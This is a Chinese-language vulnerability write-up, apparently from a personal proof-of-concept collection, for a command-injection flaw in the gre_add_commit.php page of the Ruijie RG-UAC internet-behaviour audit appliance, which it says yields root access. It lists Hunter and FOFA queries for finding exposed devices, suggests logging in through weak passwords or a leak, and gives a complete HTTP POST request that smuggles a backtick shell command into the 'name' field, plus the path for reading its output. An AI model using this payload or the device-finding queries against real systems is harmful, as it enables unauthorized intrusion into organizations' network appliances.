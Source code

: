 # 锐捷RG-UAC统一上网行为管理审计系统gre_add_commit后台命令执行漏洞

# 一、漏洞简介
锐捷RG-UAC统一上网行为管理审计系统存在命令执行漏洞,可以通过漏洞获取root权限 。

# 二、影响版本
+ 锐捷RG-UAC统一上网行为管理审计系统

# 三、资产测绘
+ hunter`app.name="Ruijie 锐捷 RG-UAC"`
+ fofoa:`app="Ruijie-RG-UAC"`

登录页

![1711942665811-46dbe53d-d2cc-433f-ac40-7a78aa2d4c6c.png](./img/SlJI9VhHutLak0Um/1711942665811-46dbe53d-d2cc-433f-ac40-7a78aa2d4c6c-226376.png)

# 四、漏洞复现
使用弱口令/敏感信息泄露漏洞登录系统后台

![1714985896501-ee5e7557-a9fe-4b1f-9baa-a777b9f147e5.png](./img/SlJI9VhHutLak0Um/1714985896501-ee5e7557-a9fe-4b1f-9baa-a777b9f147e5-123556.png)

获取Cookie后使用下面poc

```plain
POST /view/networkConfig/GRE/gre_add_commit.php HTTP/1.1
Host: 
Cookie: PHPSESSID=ae63a240e1fdfb5614107040d19120f3
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Content-Length: 33

name=`ls+>1.txt`&remote=1&local=1
```

![1714989028857-fa8d17c5-2707-47a9-a848-f06cbe2e54a9.png](./img/SlJI9VhHutLak0Um/1714989028857-fa8d17c5-2707-47a9-a848-f06cbe2e54a9-498056.png)

```plain
/view/networkConfig/GRE/1.txt
```

![1714989065311-f14ac78a-a58b-41ff-b610-bbd258b33d8f.png](./img/SlJI9VhHutLak0Um/1714989065311-f14ac78a-a58b-41ff-b610-bbd258b33d8f-428322.png)



> 更新: 2024-06-24 11:42:28  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/ovq2b0zgu49oviyd>